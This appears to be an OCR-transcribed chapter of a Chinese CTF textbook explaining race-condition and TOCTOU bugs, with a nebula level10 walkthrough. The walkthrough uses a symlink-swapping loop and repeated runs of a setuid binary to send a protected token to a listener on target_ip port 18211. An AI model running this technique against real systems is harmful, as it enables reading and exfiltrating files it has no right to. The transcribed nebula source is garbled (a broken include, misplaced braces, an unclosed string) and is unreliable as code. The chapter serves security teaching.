

???+ abstract "本章摘要"
    本章介绍逻辑漏洞的基本概念，并以「有套路」的竞态条件漏洞为主线展开：先给出竞态条件与 TOCTOU（检查时间与使用时间不一致）的原理和一个多线程示例，再通过 exploit-exercises nebula level10 真题演示利用 access/open 之间的时间差配合符号链接切换实现越权读取 flag 的完整攻击思路。
## 章节导航

上一篇：第15章 结构化异常处理
下一篇：第17章 堆概述
回到目录：[00-目录](00-目录.md)

## 一、基本概念

逻辑漏洞主要是指程序逻辑上出现的问题，例如逻辑不严密或者逻辑太复杂，从而导致一些逻辑分支不能正常处理或处理错误，通常这类漏洞多出现在Web里面或者Crypto里面，如越权访问、密码爆破等。CTF的PWN题目中涉及逻辑漏洞的概率较小，一方面构造新的逻辑漏洞难度较大，另外这个漏洞很少作为PWN题的主干部分。本章将主要介绍逻辑漏洞中"有套路"的竞态条件漏洞。

???+ note "定义：逻辑漏洞"
    ==逻辑漏洞==是程序逻辑不严密或过于复杂，导致某些逻辑分支无法正常处理或处理错误而产生的一类漏洞，多出现在 Web、Crypto 方向（如越权访问、密码爆破），在 PWN 题目中较少作为主干出现。
???+ tip "本节要点"
    1. 逻辑漏洞源于程序逻辑本身的问题（不严密或太复杂），使某些逻辑分支处理异常。
    2. 常见于 Web 与 Crypto 方向，典型形态如越权访问、密码爆破。
    3. PWN 中逻辑漏洞出现概率较低，且很少作为题目主干。
    4. 本章重点讲「有套路」的竞态条件漏洞。
## 二、竞态条件漏洞

==竞态条件（Race Condition）漏洞是指多任务（多进程、多线程等）对同一资源进行访问时，因访问资源的先后顺序不同产生冲突的情况。==通过竞态条件漏洞，可以实现越权访问、资源篡改等操作。

???+ note "定义：竞态条件"
    ==竞态条件==是多任务（多进程/多线程）并发访问同一资源时，因访问先后顺序不同而产生冲突的情况，可被利用实现越权访问、资源篡改。
下面用一个简单的例子来说明竞态条件漏洞，代码如下：

```c
#include <stdio.h>
#include <pthread.h>

int resource = 0;
void *main_logic()
{
    if (resource == 0)
    {
        printf("logic 0\n");
    }

    sleep(2);
    if (resource == 1)
    {
        printf("logic 1\n");
    }
}

void *set_resource()
{
    sleep(1);
    resource = 1;
}

#define THREAD_COUNT 2
int main()
{
    pthread_t thread[THREAD_COUNT];
    int i;

pthread_create(&thread[0], NULL, (void *)set_resource, NULL);
pthread_create(&thread[1], NULL, (void *)main_logic, NULL);

for (i = 0; i < THREAD_COUNT; i++)
pthread_join(thread[i], NULL);

return 0;
```

执行结果如图16-1所示。

{ width="100%" }


<div style="text-align: center;">图16-1 执行结果</div>


该示例中运行了两个线程，主功能线程main_logic根据resource的值来执行不同的逻辑，而set_resource函数线程则用来设置resource的值，在main_logic函数的执行过程中，线程set_resource也得到了运行，从而使得main_logic的两个条件都得到了满足。

条件竞争中一种很常见的漏洞是TOCTTOU或称TOCTOU（time-of-check-to-time-of-use），==该漏洞主要是由于检查和使用的时间不一致导致的==，如对某个资源的权限/状态进行查询和对数据进行使用时，由于发生了其他事件而导致前面的权限/状态发生了改变，从而使得最终的使用绕过了权限/状态的检查。

???+ note "定义：TOCTOU"
    ==TOCTOU==（time-of-check-to-time-of-use）指对资源「检查」（权限/状态查询）与「使用」（实际读写）之间时间不一致，两个动作之间状态被其他事件改变，最终绕过检查。
简单的示例代码如下：

```c
if (access("file", W_OK) != 0) {
    exit(1);
}
fd = open("file", O_WRONLY);
write(fd, buffer, sizeof(buffer));
```

调用access检查"file"的权限，然后调用open来打开"file"，并进行写操作，然而access和open两个函数调用并非为一个原子操作，==所以在这两者之间很有可能发生其他操作==，如将"file"改成其他的内容，那么最终达到的效果就是能对其他不具有写权限的文件写入数据。也就是说，在access调用之后open调用之前，另外一个进程如果执行"syntax link"（"/etc/passwd", "file"）；那么后续open打开的实际上就是"/etc/passwd"了，如果程序权限较高的话，就可以对该文件进行数据修改。

[OCR存疑：正文「syntax link」疑为 symlink 的误识。]

???+ tip "本节要点"
    1. 竞态条件 = 多任务并发访问同一资源、访问先后顺序不同产生冲突，可越权、篡改。
    2. 示例用两个线程（main_logic 读 resource、set_resource 改 resource），在前者执行期间后者改值，使两个条件同时满足。
    3. TOCTOU = 检查时间与使用时间不一致，权限/状态在「检查」后被改，最终绕过检查。
    4. access 与 open/write 非原子操作，期间文件可被替换，从而向无权写的文件写入数据。
## 三、真题解析

以下题目摘自 {exploit-exercises} nebula level10。

[OCR存疑：原文「{exploit-exercises} nebula level10」疑为 exploit-exercises 网站的 nebula level10 题目，链接标记残缺。]

实例分析nebula level10，代码如下：

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <کرنا.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
    char *file;
    char *host;

    if (argc < 3) {
        printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
        exit(1);
    }

    file = argv[1];
    host = argv[2];

    if (access(argv[1], R_OK) == 0) {
        int fd;
        int ffd;
        int rc;
        struct sockaddr_in sin;
        char buffer[4096];

        printf("Connecting to %s:18211 .. ", host);
    }
}

fflush(stdout);

fd = socket(AF_INET, SOCK_STREAM, 0);

memset(&sin, 0, sizeof(struct sockaddr_in));
sin.sin_family = AF_INET;
sin.sin_addr.s_addr = inet_addr(host);
sin.sin_port = htons(18211);

if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
    printf("Unable to connect to host %s\n", host);
    exit(EXIT_FAILURE);
}

#define HITHERE ".oO Oo.\n
if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
    printf("Unable to write banner to host %s\n", host);
    exit(EXIT_FAILURE);
}

#undef HITHERE

printf("Connected!\nSending file ..");
fflush(stdout);

ffd = open(file, O_RDONLY);
if(ffd == -1) {
    printf("Damn. Unable to open file\n");
    exit(EXIT_FAILURE);
}

rc = read(ffd, buffer, sizeof(buffer));
if(rc == -1) {
    printf("Unable to read from file: %s\n", strerror(error));
    exit(EXIT_FAILURE);
}

write(fd, buffer, rc);

printf("wrote file!\\n");

} else {
    printf("You don't have access to %s\n", file);
}
```

[OCR存疑：`#include <کرنا.h>` 为乱码，疑为 `<errno.h>`（代码后续调用了 strerror）；`#define HITHERE ".oO Oo.\n` 引号未闭合，疑为 `".oO Oo.\n"`；`strerror(error)` 疑为 `strerror(errno)`；`printf("wrote file!\\n")` 中 `\\n` 疑为 `\n`。]

对上述代码所示解法分析如下。

1）==判断access函数的动作与open函数的打开动作之间不是原子操作==，两者存在一个时间差，如果在此时改变文件，那么就会绕过access的检查。

2）不断地对两个文件进行软连接，其中，一个是自己的文件"./token_fake"，可读可写；一个是flag文件"../flag10/token"，只允许特定用户读取。通过循环，不断建立连接，以产生上述绕过检查的机会。

命令：

```bash
while true; do ln -fs token_fake token_use; ln -fs
../flag10/token token_use; done
```

3）然后不断运行如下程序：

```bash
../flag10/flag10
while true; do ../flag10/flag10 token_use target_ip; done
```

4）最后在该target_ip上的18211端口进行监听即可收到flag。

???+ tip "本节要点"
    1. 题目考查 access(input) 检查与 open(input) 使用之间的 TOCTOU 竞态。两函数非原子操作，存在时间差，期间改文件即可绕过 access 检查。
    2. 利用手法：对两个文件（自己的 token_fake 与 flag 文件 ../flag10/token）在循环中反复 `ln -fs` 软连接切换。
    3. 同时不断运行 `../flag10/flag10 token_use target_ip`，试图命中「检查通过但打开的是 flag 文件」的瞬间。程序先连接 host 18211 端口，权限检查通过后读取文件内容并发送过去。
    4. 在 target_ip 上监听 18211 端口即可收到 flag。
## 本章思维导图



## 易错点

!!! warning "易错点"
    1. ==access 与 open 不是原子操作==：两者之间的时间差可被利用，检查的对象与最终使用的对象可能不是同一个文件。
    2. TOCTOU 的「检查」和「使用」一旦不一致就可能绕过权限/状态检查，不能想当然认为检查通过 = 安全。
    3. 符号链接（软连接）是触发竞态的关键：在检查通过后、使用之前把文件重新链接到目标，即可越权读写。
    4. 竞态属于「窗口期」漏洞，单次触发靠运气，需用循环反复切换/运行来提高命中概率。
??? note "自测题"
    **基础**
    1. 什么是逻辑漏洞？它最常见出现在哪些方向？
    2. 什么是竞态条件（Race Condition）？举例说明它能造成什么后果。
    3. TOCTOU 的全称是什么？它的本质问题出在哪里？
    4. 为什么说 access() 和 open() 之间不是原子操作会带来安全问题？
    5. nebula level10 中，攻击者利用了哪两个函数之间的时间差？
> **进阶**
> 6. 简述 nebula level10 的完整利用思路（涉及哪些文件、端口、命令）。
> 7. 为什么竞态条件的利用通常需要「循环反复」？单次尝试能保证成功吗？
> 8. 如果把 access 改为 open 后直接使用返回的文件描述符再读，能否避免此漏洞？为什么？

> **参考答案**
> 1. 逻辑漏洞是程序逻辑不严密或过于复杂，导致逻辑分支处理异常而产生的漏洞，常见于 Web 和 Crypto 方向（如越权访问、密码爆破）。
> 2. 竞态条件是多任务（多进程/多线程）并发访问同一资源，因访问先后顺序不同产生冲突的情况，可实现越权访问、资源篡改。
> 3. TOCTOU = time-of-check-to-time-of-use，本质是「检查」与「使用」时间不一致，期间状态被改动从而绕过检查。
> 4. 因为两者之间可能发生其他操作（如符号链接替换文件），最终 open 打开的对象与 access 检查的对象不一致，导致向本无写权限的文件写入数据。
> 5. access（检查权限）与 open（实际打开使用）之间的时间差。
> 6. 对 token_fake（自己可读写）和 ../flag10/token（flag）在循环中反复 `ln -fs` 切换软连接，同时反复运行 `../flag10/flag10 token_use target_ip`，程序在检查通过后打开 flag 文件并发送到 target_ip 的 18211 端口，监听该端口即可收 flag。
> 7. 因为竞态是「窗口期」漏洞，命中时机不可控，需循环反复切换/运行来提高命中的概率，单次不能保证成功。
> 8. 能。用 open 直接返回的 fd 进行后续读写，避免「先检查后打开」两个独立动作之间的时间差，可消除 TOCTOU 竞态。

## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- exploit-exercises（nebula level10 题目出处）：https://exploit-exercises.com/

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
